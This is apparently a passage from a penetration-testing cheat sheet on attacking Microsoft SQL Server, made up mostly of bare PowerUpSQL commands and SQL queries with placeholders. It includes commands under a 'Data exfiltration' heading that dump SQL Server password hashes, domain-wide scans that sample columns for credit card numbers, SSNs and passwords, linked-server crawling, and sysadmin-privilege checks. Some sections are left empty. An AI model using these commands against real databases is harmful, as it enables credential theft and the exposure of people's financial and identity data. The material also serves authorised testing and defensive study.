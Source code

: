 ````
set GET_PATH <PATH TO SQLI>
run
```

### Data exfiltration
#### SQLServerPasswordHash
```
Get-SQLServerPasswordHash -Verbose -Instance <INSTANCE> -Migrate
```
 
#### Identify Sensitive Data
```
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded | Get-SQLColumnSampleDataThreaded -Verbose -Threads 20 -Keyword "credit,creditcard,ssn,bsn,password,wachtwoord" -SampleSize 2 -ValidateCC -NoDefaults
```
 
#### Identify sensitive data featuring transparent encryption
```
Get-SQLInstanceDomain | Get-SQLConnectionTest | Get-SQLDatabaseThreaded -Verbose -Threads 10 -NoDefaults | Where-Object {$_.is_encrypted -eq 'TRUE'}| Get-SQLColumnSampleDataThreaded -Verbose -Threads 20 -Keyword "credit,creditcard,ssn,bsn,password,wachtwoord" -SampleSize 2 -ValidateCC -NoDefaults
```

### Query database 
```
Get-SQLQuery -Instance "<INSTANCE>" -Query "select @@servername"
Get-SQLQuery -Instance "<INSTANCE>" -Query "<QUERY>"
```

#### SQL Queries
```
# When able to connect directy to the instance
Get-SQLDatabase
Get-SQLTable
Get-SQLColumn
Get-SQLQuery -Query "use <DATABASE>; SELECT * from <TABLE>"


# List databases
SELECT name FROM master..sysdatabases;

Get-SQLServerLinkCrawl -Instance <INSTANCE> -Query 'SELECT name FROM master..sysdatabases;' | Where-Object customquery | Select-Object instance, customquery -ExpandProperty customquery | Select-Object instance, name

# List tables
SELECT name FROM <DATABASE>..sysobjects WHERE xtype = 'U'

Get-SQLServerLinkCrawl -Instance <INSTANCE> -QueryTarget AC-DBBUSINESS -Query "SELECT name FROM <DATABASE>..sysobjects WHERE xtype = 'U'" | Select-Object -ExpandProperty customquery

# List columns

# List the contents of table
```
 
### SQL Queries
#### Check if current user is sysadmin
```
SELECT IS_SRVROLEMEMBER('sysadmin')
```

#### Check if a user is sysadmin
```
SELECT IS_SRVROLEMEMBER('sysadmin','<USER>')
````